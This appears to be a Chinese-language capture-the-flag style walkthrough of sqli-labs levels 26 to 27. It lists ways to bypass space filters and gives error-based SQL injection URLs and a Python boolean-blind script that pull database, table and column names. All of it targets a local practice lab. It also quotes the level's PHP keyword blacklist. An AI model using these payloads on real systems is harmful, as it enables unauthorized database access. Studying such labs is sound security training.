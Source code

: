 ```
```
or and --  #的绕过我们之前都已经讲过。这题的关键是在绕过空格。常见的绕过空格的办法有:
```
%09 TAB 键（水平）
%0a 新建一行
%0c 新的一页
%0d return 功能
%0b TAB 键（垂直）
%a0 空格
%20 urlencode
/**/ 注释
` 反引号绕过
()绕过空格:在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来
```
这里在Windows平台下可能会出现无法用某些特殊字符替代空格的情况，要的话只有更换到Linux才可行。(由于我的懒，就没换)以下使用()绕过空格。  
```
http://127.0.0.1/sqli-labs-master/Less-26/?id=0'||(extractvalue(1,concat(1,database())))aandnd'1'='1
http://127.0.0.1/sqli-labs-master/Less-26/?id=0'||extractvalue(1,concat(1,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))))aandnd'1'='1
http://127.0.0.1/sqli-labs-master/Less-26/?id=0'||extractvalue(1,concat(1,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))))aandnd'1'='1
```
注意:使用()闭合无法使用limit,union select。（吐槽一句:这题几十个括号闭合得我要吐了，早知道就去linux用%a0绕过了)。。%0b可以在windows下被正常解析，但是在这道题里面仍然会被过滤。。。。

# Less-26a
这道题和过滤点和Less-26一样，只不过关闭了报错语句，因此没有办法使用报错注入了。闭合点也变成了')。在这里我使用布尔盲注。脚本如下:
``` python
import requests
url="http://127.0.0.1/sqli-labs-master/Less-26a/?id=1')%26%26(ascii(substr(database(),{},1))={})||('1'='"
result=""
for i in range(1,10):
	for j in range(33,127):
		payload = url.format(i,j)
		r = requests.get(payload)
		r.encoding=r.apparent_encoding
		if "Dumb" in r.text:
			result += chr(j)
			print (result)
			break;
```
注意:如果过滤了,还可以用:
```
mid(string,start,length) = mid(string from start for length)
```

# Less-27
先看过滤源码:
``` php
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
```